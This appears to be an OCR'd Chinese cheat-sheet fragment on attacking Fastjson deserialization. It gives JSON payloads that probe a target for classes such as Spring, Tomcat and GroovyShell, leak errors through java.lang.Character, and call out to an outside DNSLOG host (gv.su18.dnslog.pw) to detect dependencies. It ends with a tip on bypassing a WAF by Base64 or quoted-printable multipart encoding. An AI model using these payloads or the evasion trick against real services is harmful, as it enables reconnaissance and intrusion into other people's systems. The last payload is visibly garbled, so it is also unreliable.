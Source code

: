 ```json
{
  "@type": "java.lang.AutoCloseable"
```

探测环境

- org.springframework.web.bind.annotation.RequestMapping
- org.apache.catalina.startup.Tomcat
- groovy.lang.GroovyShell
- com.mysql.jdbc.Driver
- java.net.http.HttpClient

如果系统存在这个类，会返回一个类实例，如果不存在会返回 null

```json
{
  "z": {
    "@type": "java.lang.Class",
    "val": "org.springframework.web.bind.annotation.RequestMapping"
  }
}
{
  "z": {
    "@type": "java.lang.Class",
    "val": "java.net.http.HttpClient"
  }
}
```

通过使用 Character 将报错回显在 message 中

```json
{
  "x": {
    "@type": "java.lang.Character"{
  "@type": "java.lang.Class",
  "val": "com.mysql.jdbc.Driver"
}}
```

通过使用 DNSLOG 来探测依赖库

```json
{"@type":"java.net.Inet4Address",
   "val":{"@type":"java.lang.String"
{"@type":"java.util.Locale",
   "val":{"@type":"com.alibaba.fastjson.JSONObject",{
   "@type": "java.lang.String""@type":"java.util.Locale",
   "language":{"@type":"java.lang.String"
{1:{"@type":"java.lang.Class","val":"groovy.lang.GroovyShell"}},
"country":"gv.su18.dnslog.pw"
}}
}
```

绕过 WAF ，在部分中间件中，multipart 支持指定 Content-Transformer-Encoding
可以使用 Base64 或 quoted-printable （QP 编码） 来绕过 WAF
